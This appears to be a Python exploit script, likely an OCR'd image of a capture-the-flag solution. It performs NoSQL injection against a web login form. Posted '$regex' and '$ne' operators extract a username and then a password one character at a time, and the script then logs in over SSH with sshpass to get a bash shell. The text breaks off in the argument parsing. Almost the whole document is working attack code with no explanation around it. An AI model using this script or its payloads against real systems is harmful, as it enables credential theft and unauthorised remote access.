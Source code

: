 ```py
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def userExtract(rhost):
    url = "http://%s" %rhost
    global username
    username = ""
    password = ""
    list = string.ascii_letters
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = {
                #"username[$regex]": "^"+username+c,
                "username[$regex]": "^(?!admin)"+username+c,
                "password[$ne]": password
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {username+c}")
                username += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Username Fouuuund!! : %s [+]" %username)

# Function to extract the password from the user
def passExtract(rhost,username):
    url = "http://%s" %rhost
    global password
    password = ""
    list = string.printable
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            # We skip characters that will be interpreted as regex
            if c in ['*', '+', '.', '?', '|', '$']:
                iterator = iterator + 1
                continue
            payload = {
                "username": username,
                "password[$regex]": "^"+password+c
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {password+c}")
                password += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Password Fouuuuund!!!!! : %s [+]" %password)
    
def sshLogin(rhost,username,password):
    print("[+] Now, let's ssh in !!!! [+]")
    out = os.popen("getent hosts %s | awk '{ print $1 }'" %rhost).read().rstrip()
    command = 'sshpass -p %s ssh %s@%s /bin/bash' %(password,username,out)
    os.system(command)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
```
